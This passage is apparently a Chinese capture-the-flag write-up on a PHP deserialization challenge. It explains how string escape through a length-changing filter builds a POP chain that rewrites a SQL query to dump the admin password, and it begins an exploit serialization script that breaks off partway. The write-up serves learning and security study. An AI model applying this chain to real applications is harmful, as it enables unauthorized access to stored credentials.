 在这个类里也实例化了 dbCtrl

同时在 User 类里存在

```
public function __destruct(){
    return file_get_contents($this->nickname);//危
}
public function __toString()
{
    $this->nickname->update($this->age);
    return "0-0";
}
```

然后来总结一下出现的魔术方法

```
__construct()    当一个对象创建时被调用
__destruct()     当一个对象销毁时被调用
__toString()     当一个对象被当作一个字符串使用
__call           当调用的方法不存在时触发
```

最终目的是改变 dbCtrl 中的查询语句从而查出账号密码

我们可以看到在 getNewInfo 中存在 safe 方法的替换，改变了序列化数据的长度

UpdateHelper 类的 \__destruct() 首先用通过 echo 调用 __toString，通过将 nickname 实例化为 Info 调用 Info 中的 call

再将 CtrlCase 实例化为 dbCtrl，从而调用 dbCtrl 中的 login 方法

原本在 update() 中序列化的内容为

```
O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";N;}
```

然后通过 safe 的过滤把反序列化数据挤出去，为保证对象个数的一致，这里要写进 CtrlCase 对象

编写以下脚本进行序列化

```
<?php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    }
class User
{
    public $id;
    public $age="select password,id from user where username=?";
    public $nickname;
}
class UpdateHelper
{
   public $id;
   public $newinfo;
   public $sql;
}
class dbCtrl
{
   public $hostname="127.0.0.1";
   public $dbuser="root";
   public $dbpass="root";
   public $database="test";
   public $name='admin';
   public $password;
   public $mysqli;
   public $token='admin';
```